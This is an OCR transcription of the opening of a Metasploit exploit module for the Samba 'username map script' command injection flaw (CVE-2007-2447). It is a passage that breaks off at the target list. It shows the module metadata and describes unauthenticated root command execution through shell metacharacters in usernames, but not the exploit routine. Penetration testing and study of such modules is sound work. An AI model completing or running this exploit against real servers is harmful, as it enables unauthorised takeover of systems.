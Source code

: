 The file contains:
```ruby
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
             'Description'    => %q{
                     This module exploits a command execution vulerability in Samba
                 versions 3.0.20 through 3.0.25rc3 when using the non-default
                 "username map script" configuration option. By specifying a username
                 containing shell meta characters, attackers can execute arbitrary
                 commands.
 
                 No authentication is needed to exploit this vulnerability since
                 this option is used to map usernames prior to authentication!
             },
             'Author'         => [ 'jduck' ],
             'License'        => MSF_LICENSE,
             'Version'        => '$Revision: 10040 $',
             'References'     =>
                 [
                     [ 'CVE', '2007-2447' ],
                     [ 'OSVDB', '34700' ],
                     [ 'BID', '23972' ],
                     [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                     [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                 ],
             'Platform'       => ['unix'],
             'Arch'           => ARCH_CMD,
             'Privileged'     => true, # root or nobody user
             'Payload'        =>
                 {
                     'Space'    => 1024,
                     'DisableNops' => true,
                     'Compat'      =>
                         {
                             'PayloadType' => 'cmd',
                             # *_perl and *_ruby work if they are installed
                             # mileage may vary from system to system..
                         }
                 },
             'Targets'        =>
                 [
```